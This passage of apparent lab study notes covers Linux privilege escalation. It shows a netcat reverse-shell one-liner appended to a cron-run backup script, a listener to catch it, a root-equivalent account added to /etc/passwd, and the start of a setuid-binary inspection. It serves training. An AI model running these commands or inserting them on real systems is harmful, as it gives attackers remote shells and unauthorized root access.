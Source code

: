 ```Shell
ls /var/log | grep "cron"
```
#### Showing the content and permissions of the user_backups.sh script
```Shell
cat /home/joe/.scripts/user_backups.sh
```

```Shell
ls -lah /home/joe/.scripts/user_backups.sh
```
#### Inserting a reverse shell one-liner in user_backups.sh
```Shell
cd .scripts
```

```Shell
echo >> user_backups.sh
```

```Shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh
```
#### Start a netcat listener
```Shell
nc -lnvp 1234
```
### 17.3.2. Abusing Password Authentication
#### Escalating privileges by editing `/etc/passwd`, adding a line to the file w/ the appropriate format
```Shell
openssl passwd w00t
```
Output:
```
Fdzt.eqJQ4s0g
```

```Shell
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

```Shell
su root2
```

## 17.4. Insecure System Components
### 17.4.1. Abusing Setuid Binaries and Capabilities
#### Executing the passswd program
```Shell
passwd
```
Allows a user to change their password
#### Inspecting `passwd`'s process creds
```Shell
ps u -C passwd
```
Shows `passwd` is running as the root user; this is needed for it to access and modify `/etc/shadow`
#### Inspecting passwd's real UID and effective UID based on the PID identified in the previous command
```Shell
grep Uid /proc/1932/status
```
Output: